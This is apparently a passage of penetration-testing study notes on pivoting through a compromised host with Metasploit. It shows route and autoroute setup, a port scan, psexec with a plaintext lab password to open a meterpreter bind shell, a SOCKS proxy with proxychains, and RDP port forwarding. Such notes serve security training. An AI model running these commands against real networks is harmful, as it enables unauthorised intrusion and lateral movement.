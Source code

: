 add the subnet from the eth interface we found, plus the backgrounded session id
this creates a path to the internal network so we can enumerate it
```
route add 172.16.110.0/24 10
route print
```

prep scan
```
use auxiliary/scanner/portscan/tcp
set RHOSTS 172.16.110.200 # choosing one ip vs whole subnet to save time
set PORTS 445,3389
run
```

once open ports are confirmed, we can try to access smb
```
use exploit/windows/smb/psexec 
set SMBUser luiza
set SMBPass "BoccieDearAeroMeow1!"
set RHOSTS 172.16.110.200
set payload windows/x64/meterpreter/bind_tcp
set LPORT 8000
run
```

instead of adding a route manually, this automatically finds and adds subnets
```
use multi/manage/autoroute
show options
sessions -l
set session 10
run
```

instead of using psexec, we can use socks proxy
```
use auxiliary/server/socks_proxy 
show options
set SRVHOST 127.0.0.1
set VERSION 5
run -j
```

edit /etc/proxychains4.conf
```
socks5 127.0.0.1 1080
```

access the internal machine using proxychains and freerdp
```
sudo proxychains xfreerdp /v:172.16.110.200 /u:luiza
```

similar technique is to use a port forward
```
sessions -i 10
portfwd add -l 3389 -p 3389 -r 172.16.110.200
sudo xfreerdp /v:127.0.0.1 /u:luiza /p:BoccieDearAeroMeow1!
```
### automating metasploit with resource scripts
- resource scripts chain commands together
- create a script in kali home dir - listener.rc
- AutoRunScript option automatically executes a module after a session was created
- use migrate to migrate to a new notepad.exe process
- set ExitOnSession to false to ensure that the listener keeps accepting new connections after a session is created
- run -j (background), -z (don't automatically connect)
```
```